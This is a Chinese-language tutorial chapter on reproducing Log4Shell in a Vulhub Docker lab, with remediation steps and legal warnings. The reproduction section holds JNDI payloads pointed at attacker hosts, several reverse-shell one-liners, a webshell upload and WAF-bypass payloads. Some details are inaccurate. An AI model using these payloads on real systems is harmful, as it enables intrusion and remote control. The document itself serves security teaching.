


## 案例四：Vulhub漏洞复现实战

### 4.1 从Vulhub说起：为什么它是漏洞学习的最佳入口

#### 4.1.1 Vulhub是什么

Vulhub是由数字时代（DigitalAge）安全团队维护的开源漏洞复现平台，基于Docker Compose构建。它收录了数百个真实世界的高危漏洞环境，每个漏洞都封装为一个独立的Docker容器，开箱即用。截至2026年，Vulhub已收录超过2000个漏洞环境，覆盖Web应用、中间件、操作系统、IoT固件等多个领域。

**Vulhub的核心设计理念：**

- **一键部署**：每个漏洞环境由一个`docker-compose.yml`定义，一条命令即可启动
- **隔离安全**：所有漏洞运行在独立的Docker容器中，与宿主机完全隔离
- **真实还原**：使用官方镜像和真实版本，最大程度还原漏洞场景
- **文档驱动**：每个漏洞附带`README.md`，说明漏洞原理、复现步骤和修复方案

**Vulhub与同类工具的对比：**

| 对比维度 | Vulhub | Metasploitable | OWASP WebGoat | DVWA |
|---------|--------|---------------|--------------|------|
| 漏洞数量 | 2000+ | ~50 | ~30 | ~15 |
| 部署方式 | Docker Compose | 虚拟机镜像 | Docker/Java | Docker/PHP |
| 漏洞类型 | 全类型 | 服务器漏洞 | Web漏洞 | Web漏洞 |
| 真实程度 | 高（真实版本） | 中 | 低（教学版） | 低（教学版） |
| 学习曲线 | 中 | 低 | 低 | 低 |
| 社区维护 | 活跃 | 不活跃 | 一般 | 一般 |

Vulhub的最大优势在于**真实性和广度**。它不造轮子，而是直接拉取官方镜像（如Apache Tomcat 8.5.41、Nginx 1.14.0等），确保漏洞环境的真实性。同时它覆盖的漏洞类型极广，从Log4j2、Fastjson、Shiro到Struts2、WebLogic、Spring等，几乎涵盖了所有主流中间件的高危漏洞。

#### 4.1.2 为什么选择Vulhub进行漏洞学习

对于安全学习者而言，Vulhub解决了三个核心痛点：

**痛点一：环境搭建困难。** 许多漏洞需要特定版本的中间件和依赖，手动搭建耗时且容易出错。Vulhub通过Docker Compose将所有依赖打包，`docker-compose up -d`即可启动。

**痛点二：环境隔离不足。** 在真实机器上复现漏洞可能污染系统，甚至导致系统不稳定。Docker容器天然隔离，实验完毕`docker-compose down`即可清理。

**痛点三：漏洞环境难以获取。** 很多漏洞环境需要自行寻找、下载、配置。Vulhub统一维护，版本管理清晰，更新及时。

#### 4.1.3 Vulhub的目录结构

```text
vulhub/
├── README.md                          # 项目总览
├── weblogic/                          # WebLogic漏洞
│   ├── CVE-2017-10271/
│   ├── CVE-2019-2725/
│   └── ...
├── tomcat/                            # Tomcat漏洞
│   ├── CVE-2017-12615/
│   ├── CVE-2020-1938/
│   └── ...
├── log4j/                             # Log4j漏洞
│   ├── CVE-2021-44228/
│   ├── CVE-2021-45046/
│   └── ...
├── fastjson/                          # Fastjson漏洞
│   ├── 1.2.24-rce/
│   ├── 1.2.68-rce/
│   └── ...
├── struts2/                           # Struts2漏洞
│   ├── CVE-2013-2251/
│   ├── CVE-2017-5638/
│   └── ...
├── spring/                            # Spring漏洞
│   ├── CVE-2018-1270/
│   ├── CVE-2022-22965/
│   └── ...
├── nginx/                             # Nginx漏洞
├── redis/                             # Redis漏洞
├── php/                               # PHP漏洞
├── shiro/                             # Shiro漏洞
└── ...（更多目录）
```

每个漏洞目录的标准结构：

```text
CVE-2021-44228/
├── README.md          # 漏洞说明、复现步骤、修复方案（必读）
├── docker-compose.yml # 容器编排定义
├── Dockerfile         # 自定义镜像构建（部分漏洞需要）
├── app/               # 漏洞应用源码
└── exploit.py         # 辅助利用脚本（部分漏洞提供）
```

### 4.2 环境准备：让Vulhub跑起来

#### 4.2.1 前置依赖

Vulhub基于Docker运行，因此需要安装Docker和Docker Compose。以下是完整的环境准备流程：

**步骤一：安装Docker**

```bash
# Ubuntu/Debian
curl -fsSL https://get.docker.com -o get-docker.sh
sh get-docker.sh

# 将当前用户加入docker组（避免每次sudo）
sudo usermod -aG docker $USER
newgrp docker

# 验证安装
docker --version
docker run hello-world
```

**步骤二：安装Docker Compose**

```bash
# 方法一：通过pip安装（推荐）
pip3 install docker-compose

# 方法二：下载二进制
curl -L "https://github.com/docker/compose/releases/latest/download/docker-compose-$(uname -s)-$(uname -m)" \
  -o /usr/local/bin/docker-compose
chmod +x /usr/local/bin/docker-compose

# 验证安装
docker-compose --version
```

> **注意：** 如果你使用的是Docker Desktop（Windows/Mac），Docker Compose已经内置，无需单独安装。

**步骤三：配置Docker镜像加速**

国内访问Docker Hub可能较慢，建议配置镜像加速器：

```bash
# 编辑Docker daemon配置
sudo mkdir -p /etc/docker
sudo tee /etc/docker/daemon.json <<-'EOF'
{
  "registry-mirrors": [
    "https://docker.m.daocloud.io",
    "https://huecker.io",
    "https://mirror.ccs.tencentyun.com"
  ]
}
EOF
sudo systemctl daemon-reload
sudo systemctl restart docker
```

**步骤四：克隆Vulhub**

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub
# 查看当前收录的漏洞
ls -la
```

#### 4.2.2 常见环境问题和解决方案

**问题一：Docker权限不足**

```bash
# 症状：docker-compose up报错"permission denied"
# 解决：确保当前用户在docker组中
groups | grep docker  # 检查
sudo usermod -aG docker $USER  # 加入docker组
newgrp docker  # 重新加载组信息
```

**问题二：Docker磁盘空间不足**

```bash
# 症状：容器启动失败，报错"no space left on device"
# 解决：清理未使用的Docker资源
docker system prune -a --volumes  # 谨慎使用，会删除所有未使用的镜像和卷
docker volume prune  # 只清理未使用的卷
docker image prune -a  # 只清理未使用的镜像
```

**问题三：端口冲突**

```bash
# 症状：docker-compose up报错"port is already allocated"
# 解决：查看占用端口的进程
sudo lsof -i :8080  # 替换为冲突端口
# 修改docker-compose.yml中的端口映射
# ports:
#   - "8080:8080"  →  - "8081:8080"
```

**问题四：镜像拉取超时**

```bash
# 症状：docker-compose up卡在"Pulling"
# 解决：手动拉取镜像
docker pull vulhub/log4j:2.14.1  # 替换为实际镜像名
# 或配置镜像加速器（见上文步骤三）
```

### 4.3 实战案例：Log4j2远程代码执行（CVE-2021-44228）

Log4j2漏洞（CVE-2021-44228），代号"Log4Shell"，是2021年最严重的漏洞之一。它影响了全球数亿台设备，被CVE项目评为CVSS 10.0满分。我们以此为案例，完整走一遍Vulhub漏洞复现的全流程。

#### 4.3.1 漏洞背景与影响

**漏洞概要：**

Log4j2是Apache Software Foundation维护的Java日志框架，被广泛应用于各类Java应用中。在2021年12月，安全研究员发现Log4j2的JNDI（Java Naming and Directory Interface）查找功能存在远程代码执行漏洞。

**影响范围：**

- 受影响版本：Log4j 2.0-beta9 到 2.14.1
- 影响组件：所有使用Log4j2的Java应用
- 实际影响：阿里巴巴、腾讯云、Elastic、Apache等大量知名产品受影响
- 全球影响：据估计超过20%的互联网设备受影响

**为什么这个漏洞如此严重？**

1. **利用门槛极低**：只需在用户可控的输入中注入`${jndi:ldap://attacker.com/exploit}`即可触发
2. **影响范围极广**：Log4j2是Java生态的基石组件，几乎无处不在
3. **无需认证**：不需要任何凭据即可利用
4. **自动触发**：只要用户输入被记录到日志中，攻击就自动执行

#### 4.3.2 漏洞原理深度剖析

**JNDI机制回顾：**

JNDI是Java提供的命名和目录查找服务API，允许Java程序通过统一接口访问各种命名服务（如DNS、LDAP、RMI等）。其核心流程如下：

```text
Java应用 → JNDI API → 命名服务（LDAP/RMI）→ 返回对象 → Java反序列化 → 执行代码
```

**漏洞触发链条：**



**关键触发条件（三个条件缺一不可）：**

1. **版本条件**：应用使用Log4j2 2.0-beta9至2.14.1版本
2. **输入条件**：用户可控的数据被传入`log.info()`、`log.error()`等日志方法
3. **网络条件**：应用服务器能够访问攻击者控制的LDAP/RMI服务器

**为什么JNDI注入能执行任意代码？**

当JNDI客户端发起LDAP查找时，LDAP服务器可以返回一个Java对象的序列化数据。JNDI客户端收到后会自动反序列化该对象。如果攻击者控制了LDAP服务器，就可以返回精心构造的恶意对象，在反序列化过程中执行任意代码。

#### 4.3.3 环境部署与验证

**步骤一：启动漏洞环境**

```bash
# 进入Log4j2漏洞目录
cd ~/vulhub/log4j/CVE-2021-44228

# 查看README（重要！每个漏洞的README都包含详细说明）
cat README.md

# 启动环境
docker-compose up -d

# 查看容器状态
docker-compose ps

# 预期输出：
# NAME                    COMMAND               STATUS      PORTS
# cve-2021-44228_app_1   "/app/start.sh"       Up          0.0.0.0:8080->8080/tcp
```

**步骤二：验证环境可用性**

```bash
# 访问目标应用
curl http://localhost:8080/

# 预期返回：一个简单的Web页面，包含一个输入框
# 该页面会将用户输入记录到日志中
```

**步骤三：确认Log4j2版本**

```bash
# 进入容器查看Log4j2版本
docker exec -it cve-2021-44228_app_1 /bin/sh
ls -la /app/lib/
# 应看到 log4j-core-2.14.1.jar

# 或者通过应用页面查看版本信息
curl http://localhost:8080/version
```

#### 4.3.4 漏洞复现全流程

**步骤一：准备攻击工具**

我们使用welk1n开发的JNDI-Injection-Exploit工具，它提供了LDAP和RMI服务器功能：

```bash
# 克隆工具
git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
cd JNDI-Injection-Exploit

# 编译（需要Maven）
mvn clean package -DskipTests

# 或者直接下载编译好的jar包
wget https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.2/JNDI-Injection-Exploit-1.2-SNAPSHOT-all.jar
```

> **替代方案：** 如果无法编译，可以使用Mar10的JNDI-Exploit：
> ```bash
> git clone https://github.com/feihong-cs/jndi-exploit.git
> cd jndi-exploit
> python3 jndi.py  # 更轻量，无需Java编译环境
> ```

**步骤二：启动恶意LDAP服务器**

```bash
# 启动LDAP服务器，指定命令和攻击机IP
java -jar JNDI-Injection-Exploit-1.2-SNAPSHOT-all.jar \
  -C "touch /tmp/pwned" \
  -A 192.168.1.100

# 预期输出：
# Starting LDAP server at ldap://0.0.0.0:1389
# Starting HTTP server at http://0.0.0.0:8080
```

参数说明：
- `-C`：要执行的命令（这里是创建文件`/tmp/pwned`作为PoC验证）
- `-A`：攻击机IP地址（目标服务器回连时使用）

**步骤三：构造并发送恶意请求**

```bash
# 方法一：直接URL注入
curl "http://localhost:8080/\${jndi:ldap://192.168.1.100:1389/exploit}"

# 方法二：通过页面表单提交（如果应用有输入框）
curl -X POST http://localhost:8080/ \
  -d "input=\${jndi:ldap://192.168.1.100:1389/exploit}"

# 方法三：通过HTTP头注入（某些应用会记录Header）
curl -H "X-Api-Version: \${jndi:ldap://192.168.1.100:1389/exploit}" \
  http://localhost:8080/
```

> **注意：** 在bash中发送包含`${}`的字符串时，需要用反斜杠转义或使用单引号，否则bash会尝试变量展开。

**步骤四：验证漏洞利用成功**

```bash
# 方法一：在攻击机查看LDAP服务器日志
# 如果命令执行成功，会看到类似输出：
# [INFO] LDAP server started successfully
# [INFO] Received JNDI lookup request

# 方法二：进入目标容器验证
docker exec -it cve-2021-44228_app_1 /bin/sh
ls -la /tmp/pwned
# 如果文件存在，说明命令执行成功

# 方法三：执行更复杂的命令验证
# 重新启动LDAP服务器，执行反弹shell
java -jar JNDI-Injection-Exploit-1.2-SNAPSHOT-all.jar \
  -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTAwLzQ4MDAgMD4mMQ==}|{base64,-d}|{bash,-i}" \
  -A 192.168.1.100

# 在攻击机监听
nc -lvnp 4800
```

#### 4.3.5 进阶利用：从PoC到实战

**反弹Shell的多种实现方式：**

```bash
# 方式一：Bash反弹（Linux）
bash -i >& /dev/tcp/192.168.1.100/4800 0>&1

# 方式二：Python反弹（无Bash时）
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4800));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# 方式三：Java反弹（纯Java环境）
Runtime.getRuntime().exec("bash -c {echo,base64_payload}|{base64,-d}|{bash,-i}")

# 方式四：PowerShell反弹（Windows）
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.100",4800);...
```

**上传WebShell：**

```bash
# 通过JNDI注入上传webshell
java -jar JNDI-Injection-Exploit-1.2-SNAPSHOT-all.jar \
  -C "echo '<% out.println(\"pwned\"); %>' > /usr/local/tomcat/webapps/ROOT/pwned.jsp" \
  -A 192.168.1.100

# 访问webshell
curl http://localhost:8080/pwned.jsp
# 输出：pwned
```

**信息收集命令：**

```bash
# 获取系统信息
uname -a
cat /etc/os-release
whoami
id

# 获取Java版本
java -version

# 获取应用目录结构
ls -la /app/
find /app -name "*.jar" | head -20

# 获取网络连接
netstat -tulpn
ss -tulpn
```

#### 4.3.6 WAF绕过技术详解

在生产环境中，WAF（Web应用防火墙）通常会拦截JNDI注入payload。以下是常见的绕过技巧及其原理：

**技巧一：大小写混淆**

```text
原始：${jndi:ldap://attacker.com/exp}
绕过：${JNDi:LDAP://attacker.com/exp}
```

原理：Log4j2的JNDI查找不区分大小写，但WAF规则通常只匹配小写。

**技巧二：${lower:}和${upper:}函数**

```text
${${lower:j}ndi:${lower:l}dap://attacker.com/exp}
```

原理：`${lower:j}`会被Log4j2解析为小写的`j`，然后拼接成`jndi:ldap://...`。WAF如果只匹配完整的`jndi`字符串，就会被绕过。

**技巧三：${::-}字符拼接**

```text
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker.com/exp}
```

原理：`${::-j}`表示取字符串`j`从索引-1开始的子串，即`j`本身。通过这种方式可以拼出`jndi`和`ldap`。

**技巧四：${env:}环境变量**

```text
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//attacker.com/exp}
```

原理：`${env:NaN:-j}`表示读取环境变量`NaN`，如果不存在则使用默认值`j`。通过这种方式可以逐个字符拼出payload。

**技巧五：DNS回显绕过**

当目标服务器无法直接连接攻击者的LDAP服务器时，可以通过DNS回显获取信息：

```text
${jndi:dns://${lower:log4jshell}.attacker.com/exp}
```

原理：Log4j2会尝试解析DNS域名，攻击者通过监控DNS查询日志可以确认漏洞存在。

**技巧六：URL编码和二次编码**

```text
原始：${jndi:ldap://attacker.com/exp}
URL编码：%24%7Bjndi%3Aldap%3A%2F%2Fattacker.com%2Fexp%7D
双重编码：%25%32%34%25%37%42jndi%25%33%41ldap%25%33%41%25%32%46%25%32%46attacker.com%25%32%46exp%25%37%44
```

原理：某些WAF只解码一次URL，双重编码可以绕过。

#### 4.3.7 漏洞修复方案

**方案一：升级Log4j2（推荐）**

```xml
<!-- pom.xml -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.17.1</version>  <!-- 升级到2.17.0+ -->
</dependency>
```

> **注意：** 2.15.0-2.16.0版本存在绕过漏洞（CVE-2021-45046），建议直接升级到2.17.0或更高版本。

**方案二：禁用JNDI查找（临时缓解）**

```properties
# log4j2.properties
log4j2.formatMsgNoLookups=true
```

```java
// 或通过系统属性
System.setProperty("log4j2.formatMsgNoLookups", "true");
```

原理：设置`formatMsgNoLookups=true`后，Log4j2在格式化日志消息时不会执行JNDI查找。

**方案三：移除JndiLookup类（彻底修复）**

```bash
# 从jar包中删除JndiLookup类
unzip -q log4j-core-2.14.1.jar -d log4j-temp
rm -rf log4j-temp/org/apache/logging/log4j/core/lookup/JndiLookup*
cd log4j-temp
jar -cvf ../log4j-core-2.14.1-patched.jar .
```

原理：直接移除JNDI查找功能的核心类，从根本上消除漏洞。

**方案四：网络层防护**

```bash
# 限制出站连接（iptables示例）
iptables -A OUTPUT -p tcp --dport 1389 -j DROP  # 阻止LDAP
iptables -A OUTPUT -p tcp --dport 1099 -j DROP  # 阻止RMI
```

### 4.4 Vulhub系统化学习路径

#### 4.4.1 漏洞分类与学习顺序

Vulhub收录的漏洞可以按类型分为以下几类，建议按以下顺序学习：

**第一阶段：基础Web漏洞（入门）**

| 漏洞类型 | 代表漏洞 | 难度 | 学习重点 |
|---------|---------|------|---------|
| SQL注入 | DVWA SQLi | ★☆☆ | 注入原理、union注入、布尔盲注 |
| XSS | XSS挑战 | ★☆☆ | 反射型、存储型、DOM型XSS |
| 文件上传 | Upload-labs | ★★☆ | 绕过MIME检测、文件头检测 |
| 命令执行 | Command Injection | ★★☆ | 分号、管道符、反引号注入 |

**第二阶段：中间件漏洞（进阶）**

| 漏洞类型 | 代表漏洞 | 难度 | 学习重点 |
|---------|---------|------|---------|
| Log4j2 | CVE-2021-44228 | ★★☆ | JNDI注入、WAF绕过 |
| Fastjson | 1.2.24-rce | ★★★ | 反序列化、AutoType绕过 |
| Shiro | RememberMe RCE | ★★★ | AES密钥、Gadgets链 |
| Struts2 | CVE-2017-5638 | ★★★ | OGNL注入、沙箱绕过 |
| Spring | CVE-2022-22965 | ★★★ | SpEL注入、数据绑定 |

**第三阶段：框架漏洞（高级）**

| 漏洞类型 | 代表漏洞 | 难度 | 学习重点 |
|---------|---------|------|---------|
| WebLogic | CVE-2019-2725 | ★★★★ | T3协议、反序列化 |
| Tomcat | CVE-2020-1938 | ★★★ | PUT方法、文件包含 |
| Nginx | CVE-2013-4547 | ★★★ | 解析漏洞 |
| Redis | 未授权访问 | ★★☆ | 主从复制、Lua脚本 |

#### 4.4.2 漏洞复现的标准流程

每个漏洞复现都应遵循以下标准化流程：



**每个步骤的关键要点：**

1. **阅读README.md**：这是最重要的步骤。每个漏洞的README都包含漏洞原理、复现步骤、修复方案，仔细阅读可以节省大量时间。

2. **启动Docker环境**：使用`docker-compose up -d`启动，然后用`docker-compose ps`确认容器状态。如果启动失败，检查端口冲突和镜像拉取。

3. **验证环境可用性**：用curl或浏览器访问目标服务，确认服务正常运行。这一步可以排除环境配置问题。

4. **理解漏洞原理**：不要直接复制payload，先理解漏洞的触发条件和执行流程。这有助于在真实场景中识别和利用漏洞。

5. **构造攻击Payload**：根据漏洞原理构造payload，可以从简单到复杂逐步尝试。

6. **排查问题**：如果利用失败，按以下顺序排查：
   - 目标版本是否正确？
   - 网络是否可达？
   - Payload编码是否正确？
   - 容器防火墙是否拦截？

#### 4.4.3 高效学习技巧

**技巧一：建立漏洞知识库**

为每个复现的漏洞建立笔记，包含以下结构：

```markdown
# CVE-2021-44228 Log4j2 RCE

## 基本信息
- 漏洞类型：远程代码执行
- 影响组件：Log4j2 2.0-beta9 ~ 2.14.1
- CVSS评分：10.0
- 发现时间：2021-12-09

## 漏洞原理
（JNDI注入原理说明）

## 复现步骤
（完整复现流程）

## 修复方案
（升级/配置/移除）

## 相关漏洞
- CVE-2021-45046（绕过）
- CVE-2021-44832（DoS）

## 参考链接
- Vulhub: https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228
- CNVD: https://www.cnvd.org.cn/webinfo/show/5405
```

**技巧二：对比学习**

将同类漏洞放在一起对比学习，加深理解。例如：

| 对比维度 | Log4j2 JNDI | Fastjson 反序列化 | Shiro RememberMe |
|---------|------------|-------------------|-----------------|
| 触发点 | 日志记录 | JSON解析 | Cookie解密 |
| 利用条件 | 用户输入被日志记录 | 可控JSON输入 | 可控Cookie |
| 执行方式 | JNDI → 反序列化 | 反序列化 | 反序列化 |
| 修复方式 | 升级/禁用JNDI | 升级/关闭AutoType | 更换密钥 |

**技巧三：从复现到实战**

复现成功后，思考以下问题：
1. 这个漏洞在真实环境中如何被发现？
2. 有哪些变形和绕过方式？
3. 如何编写自动化检测脚本？
4. 如何向客户报告这个漏洞？

### 4.5 安全注意事项与法律边界

#### 4.5.1 法律红线

漏洞复现必须在合法合规的环境下进行：

- **只能在自己拥有或获得授权的系统上测试**
- **严禁对任何未经授权的目标进行扫描或攻击**
- **Vulhub环境仅供学习和研究使用**

违反以上规定可能触犯《中华人民共和国网络安全法》和《刑法》相关规定，面临法律制裁。

#### 4.5.2 实验环境安全

- **网络隔离**：确保Docker容器的网络与生产网络隔离
- **定期清理**：实验结束后及时清理容器，避免资源浪费
- **数据保护**：不要在实验环境中使用真实的生产数据

#### 4.5.3 道德准则

- 发现漏洞后，应通过正当渠道向厂商报告
- 不公开披露未修复的漏洞细节
- 尊重他人的系统和数据

### 4.6 学习收获与进阶方向

#### 4.6.1 通过Vulhub你能学到什么

**技术能力：**
- 掌握主流中间件和框架的常见漏洞原理
- 学会使用Docker进行安全实验
- 理解漏洞从发现到修复的完整流程
- 提升漏洞分析和利用能力

**实战经验：**
- 积累常见漏洞的payload和绕过技巧
- 建立漏洞修复的知识体系
- 培养安全测试的思维模式

#### 4.6.2 进阶学习路径

完成Vulhub基础漏洞复现后，可以沿着以下方向深入：

**方向一：漏洞挖掘**

- 学习代码审计技术
- 使用Fuzzing工具发现新漏洞
- 参与CVE提交和漏洞赏金计划

**方向二：安全开发**

- 学习Secure Coding实践
- 掌握SAST/DAST工具
- 建立DevSecOps流程

**方向三：应急响应**

- 学习漏洞应急响应流程
- 掌握日志分析和取证技术
- 参与安全运营工作

**方向四：安全研究**

- 深入研究漏洞利用技术
- 开发安全工具和框架
- 发表安全研究论文

#### 4.6.3 推荐学习资源

| 资源类型 | 名称 | 说明 |
|---------|------|------|
| 漏洞库 | Vulhub | https://github.com/vulhub/vulhub |
| 漏洞库 | CVE Details | https://www.cvedetails.com |
| 工具 | JNDI-Injection-Exploit | https://github.com/welk1n/JNDI-Injection-Exploit |
| 工具 | JNDI-Exploit | https://github.com/feihong-cs/jndi-exploit |
| 文档 | OWASP Top 10 | https://owasp.org/www-project-top-ten/ |
| 文档 | MITRE ATT&CK | https://attack.mitre.org |
| 社区 | 知道创宇 Seebug | https://www.seebug.org |
| 社区 | FreeBuf | https://www.freebuf.com |

### 4.7 总结

Vulhub是安全学习者最好的漏洞实验平台。通过系统化的漏洞复现，你可以：

1. **建立完整的漏洞知识体系**：从Web漏洞到中间件漏洞，从原理到利用
2. **掌握实用的安全技能**：Docker环境管理、漏洞分析、Payload构造
3. **培养安全思维**：从攻击者的角度理解系统弱点，从防御者的角度思考修复方案

记住，漏洞复现的最终目的是**提升安全防护能力**，而不是破坏。在合法合规的前提下，通过Vulhub进行系统化的漏洞学习，是成为安全专家的必经之路。

> **下一步行动：** 选择Vulhub中的一个漏洞，按照本文介绍的标准化流程进行复现。建议从Log4j2开始，然后逐步扩展到Fastjson、Shiro、Struts2等更多漏洞类型。每复现一个漏洞，就写一篇学习笔记，积累自己的漏洞知识库。